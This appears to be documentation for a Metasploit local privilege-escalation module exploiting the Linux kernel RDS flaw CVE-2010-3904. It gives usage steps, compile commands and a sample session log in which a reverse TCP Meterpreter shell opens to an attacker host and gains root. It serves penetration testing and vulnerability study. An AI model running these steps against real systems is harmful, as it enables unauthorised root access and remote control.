 ## Description

  This module exploits a vulnerability in the `rds_page_copy_user` function
  in `net/rds/page.c` (RDS) in Linux kernel versions 2.6.30 to 2.6.36-rc8
  to execute code as `root` (CVE-2010-3904).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora 13 (i686) with kernel version 2.6.33.3-85.fc13.i686.PAE
  * Ubuntu 10.04 (x86_64) with kernel version 2.6.32-21-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: ```use exploit/linux/local/rds_rds_page_copy_user_priv_esc```
  4. Do: ```set SESSION [SESSION]```
  5. Do: ```check```
  6. Do: ```run```
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Compiled Executables

The module makes use of two pre-compiled exploit executables (`rds.x86` and `rds.x64`),
to be use when `gcc` is not available on the target host for live compiling, or
`COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar.xz):

```bash
./x86_64-linux-musl-gcc -o rds.x64 -pie -static rds.c
./i486-linux-musl-gcc -o rds.x86 -pie -static rds.c
```


## Scenarios

  ```
  msf > use exploit/linux/local/rds_rds_page_copy_user_priv_esc
  msf exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/rds_rds_page_copy_user_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.zEAOL.c' (7282 bytes) ...
  [*] Writing '/tmp/.kBTWC7E' (237 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.149
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.149:40103) at 2018-05-03 08:52:59 -0400
  [+] Deleted /tmp/.zEAOL.c
  [+] Deleted /tmp/.zEAOL
  [+] Deleted /tmp/.kBTWC7E

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.149
  OS           : Ubuntu 10.04 (Linux 2.6.32-21-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

## Re-exploitation

The exploit C code utilizes a defined send (`5555`) and receive (`6666`) port, which are opened while the payload is active.
Attempt to re-exploit while a successful exploit payload is open will result in the error:

```
[*] Could not bind socket.
```

However, killing that payload will allow for the exploit to run successfully.
